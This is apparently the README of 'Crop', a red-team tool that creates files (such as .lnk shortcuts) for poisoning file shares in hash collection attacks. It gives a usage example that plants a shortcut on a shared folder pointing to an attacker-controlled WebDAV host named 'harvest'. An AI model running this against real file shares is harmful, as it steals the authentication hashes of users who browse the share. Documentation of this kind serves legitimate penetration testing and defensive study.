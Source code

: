 # Crop
Author: @domchell

This project is a submodule of Farmer.

Crop can be used to create various files types capable of poisoning file shares during hash collection attacks.

Usage:
```
crop.exe <folder location> <filename> <webdav location> <LNK value>

Example:
crop.exe \\fileserver\Common crop.lnk \\workstation@8888\harvest \\workstation@8888\harvest
```